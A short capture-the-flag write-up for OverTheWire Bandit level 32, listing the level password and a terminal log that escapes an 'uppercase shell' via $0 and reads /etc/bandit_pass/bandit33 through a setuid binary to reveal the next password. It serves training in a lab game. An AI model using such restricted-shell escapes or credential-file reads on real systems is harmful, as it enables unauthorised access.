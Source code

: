 ## Objetivo
After all this `git` stuff its time for another escape. Good luck!
## Datos de acceso al nivel
bandit32
rmCBvG56y58BXzv98yZGdO7ATVL5dW8y
## Solución
```
WELCOME TO THE UPPERCASE SHELL
>> ls
sh: 1: LS: not found
>> 0
sh: 1: 0: not found
>> $0
$ ls
uppershell
$ ls -la
total 36
drwxr-xr-x  2 root     root      4096 Feb 21 22:03 .
drwxr-xr-x 70 root     root      4096 Feb 21 22:04 ..
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
-rwsr-x---  1 bandit33 bandit32 15128 Feb 21 22:03 uppershell
$ cat /etc/bandit_pass/bandit33
odHo63fHiFqcWWJG9rLiLDtPm45KzUKy
$
```
## Notas adicionales

## Referencias